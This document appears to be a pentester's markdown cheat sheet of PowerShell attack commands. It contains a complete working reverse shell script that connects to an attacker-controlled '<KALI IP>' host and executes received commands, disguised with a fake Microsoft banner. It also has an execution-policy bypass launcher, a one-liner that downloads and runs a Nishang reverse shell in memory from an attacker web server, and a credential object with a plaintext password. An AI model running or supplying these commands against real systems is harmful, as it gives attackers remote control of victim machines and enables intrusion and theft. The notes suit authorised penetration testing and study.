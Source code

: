 # PowerShell useful commands

## credentials

```
$user = 'TESTLAB\dfm.a'
$pwd = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($user, $pwd)
```


## shell

revshell.ps1
```powershell
$c = New-Object System.Net.Sockets.TCPClient("<KALI IP>","4444");
$I = $c.GetStream();[byte[]]$U = 0..(2-shl15)|%{0};
$U = ([text.encoding]::ASCII).GetBytes("Copyright (C) 2021 Microsoft Corporation. All rights reserved.`n`n");
$I.Write($U,0,$U.Length); $U = ([text.encoding]::ASCII).GetBytes((Get-Location).Path + '>'); $I.Write($U,0,$U.Length);
while(($k = $I.Read($U, 0, $U.Length)) -ne 0){;$D = (New-Object System.Text.UTF8Encoding).GetString($U,0, $k);
$a = (iex $D 2>&1 | Out-String ); $r  = $a + (pwd).Path + '> '; $m = ([text.encoding]::ASCII).GetBytes($r);
$I.Write($m,0,$m.Length); $I.Flush()}; $c.Close();
```

Exec file
```
powershell -nop -exec Bypass -File revshell.ps1
```


Execute download direct on memory
```
cd /opt/nishang/Shells/
sudo python -m http.server 80
```

```
powershell iex (New-Object Net.WebClient).DownloadString('http://<Kali IP>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
```


# Links

[PowerShell-Reverse-Shells](https://github.com/0x10F8/PowerShell-Reverse-Shells)